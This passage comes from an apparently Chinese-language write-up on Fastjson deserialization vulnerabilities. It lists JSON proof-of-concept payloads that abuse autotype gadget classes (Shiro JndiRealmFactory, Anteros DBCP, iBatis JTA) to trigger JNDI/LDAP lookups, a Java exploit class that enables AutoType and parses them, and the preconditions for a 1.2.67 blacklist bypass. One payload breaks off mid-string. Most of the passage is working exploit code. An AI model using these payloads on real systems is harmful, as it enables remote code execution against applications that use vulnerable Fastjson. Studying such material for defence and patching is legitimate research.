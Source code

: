 ```
{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory", "jndiNames":["ldap://localhost:1389/Exploit"], "Realms":[""]}
```

br.com.anteros.dbcp.AnterosDBCPConfig类PoC：

JSON

```
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://localhost:1389/Exploit"}或{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}
```

com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig类PoC：

JSON

```
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTra
```

### EXP

JAVA

```
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.ParserConfig;  
  
public class EXP_1266 {  
    public static void main(String[] args) {  
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);  
 String poc = "{\"@type\":\"org.apache.shiro.realm.jndi.JndiRealmFactory\", \"jndiNames\":[\"ldap://localhost:1234/ExportObject\"], \"Realms\":[\"\"]}";  
//        String poc = "{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}";  
//        String poc = "{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"healthCheckRegistry\":\"ldap://localhost:1389/Exploit\"}";  
//        String poc = "{\"@type\":\"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig\"," +  
//                "\"properties\": {\"@type\":\"java.util.Properties\",\"UserTransaction\":\"ldap://localhost:1389/Exploit\"}}";  
 JSON.parse(poc);  
 }  
}
```

## 0x04 1.2.67反序列化漏洞（黑名单绕过）

### 前提条件

- 开启AutoType；
- Fastjson <= 1.2.67；
- JNDI注入利用所受的JDK版本限制；
- org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup类需要ignite-core、ignite-jta和jta依赖；
- org.apache.shiro.jndi.JndiObjectFactory类需要shiro-core和slf4j-api依赖；

